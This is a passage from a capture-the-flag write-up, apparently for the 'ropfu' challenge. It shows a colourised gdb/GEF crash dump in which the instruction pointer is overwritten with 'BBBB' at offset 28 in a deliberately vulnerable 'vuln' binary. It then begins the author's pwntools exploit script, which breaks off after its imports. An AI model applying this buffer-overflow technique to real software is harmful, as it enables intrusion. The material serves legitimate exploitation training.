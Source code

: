 Program received signal SIGSEGV, Segmentation fault.
<span style="color:#367BF0">0x42424242</span> in <span style="color:#FEA44C">??</span> ()
[ Legend: <span style="color:#EC0101"><b>Modified register</b></span> | <span style="color:#D41919">Code</span> | <span style="color:#5EBDAB">Heap</span> | <span style="color:#9755B3">Stack</span> | <span style="color:#FEA44C">String</span> ]
<span style="color:#585858"><b>──────────────────────────────────────────────────────────────────── </b></span><span style="color:#49AEE6">registers</span><span style="color:#585858"><b> ────</b></span>
<span style="color:#EC0101"><b>$eax   </b></span>: <span style="color:#9755B3">0xffffd540</span>  →  <span style="color:#FEA44C">"AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB"</span>
<span style="color:#EC0101"><b>$ebx   </b></span>: 0x41414141 ("<span style="color:#FEA44C">AAAA</span>"?)
<span style="color:#EC0101"><b>$ecx   </b></span>: <span style="color:#D41919">0x80e5300</span>  →  <span style="color:#585858"><b><_IO_2_1_stdin_+0> mov BYTE PTR [edx], ah</b></span>
<span style="color:#EC0101"><b>$edx   </b></span>: <span style="color:#9755B3">0xffffd560</span>  →  <span style="color:#D41919">0x80e5000</span>  →  <span style="color:#585858"><b><_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax]</b></span>
<span style="color:#EC0101"><b>$esp   </b></span>: <span style="color:#9755B3">0xffffd560</span>  →  <span style="color:#D41919">0x80e5000</span>  →  <span style="color:#585858"><b><_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax]</b></span>
<span style="color:#EC0101"><b>$ebp   </b></span>: 0x41414141 ("<span style="color:#FEA44C">AAAA</span>"?)
<span style="color:#EC0101"><b>$esi   </b></span>: <span style="color:#D41919">0x80e5000</span>  →  <span style="color:#585858"><b><_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax], al</b></span>
<span style="color:#EC0101"><b>$edi   </b></span>: <span style="color:#D41919">0x80e5000</span>  →  <span style="color:#585858"><b><_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax], al</b></span>
<span style="color:#EC0101"><b>$eip   </b></span>: 0x42424242 ("<span style="color:#FEA44C">BBBB</span>"?)
<span style="color:#367BF0">$cs</span>: 0x23 <span style="color:#367BF0">$ss</span>: 0x2b <span style="color:#367BF0">$ds</span>: 0x2b <span style="color:#367BF0">$es</span>: 0x2b <span style="color:#367BF0">$fs</span>: 0x00 <span style="color:#EC0101"><b>$gs</b></span>: 0x63 
<span style="color:#585858"><b>────────────────────────────────────────────────────────────────── </b></span><span style="color:#49AEE6">code:x86:32</span><span style="color:#585858"><b> ────</b></span>
<span style="color:#EC0101"><b>[!]</b></span> Cannot disassemble from $PC
<span style="color:#EC0101"><b>[!]</b></span> Cannot access memory at address 0x42424242
<span style="color:#585858"><b>────────────────────────────────────────────────────────────────────── </b></span><span style="color:#49AEE6">threads</span><span style="color:#585858"><b> ────</b></span>
[<span style="color:#47D4B9"><b>#0</b></span>] Id 1, Name: "vuln", <span style="color:#EC0101"><b>stopped</b></span> <span style="color:#367BF0">0x42424242</span> in <span style="color:#FF8A18"><b>??</b></span> (), reason: <span style="color:#962AC3"><b>SIGSEGV</b></span>
{% endccb %}

The offset is 28, as we've successfully loaded 4 hex `B`s into the `$eip`. Our last step is to set up the remote connection with [pwntools](https://docs.pwntools.com/en/stable/). Here is my final script:

{% ccb lang:py gutter1:1-48 caption:ropfu.py url:gist.github.com/jktrn/17d531a5738b4592f6d718fc0eb1b508 url_text:'github gist link' scrollable:true %}
#!/usr/bin/env python2
from pwn import *
from struct import pack
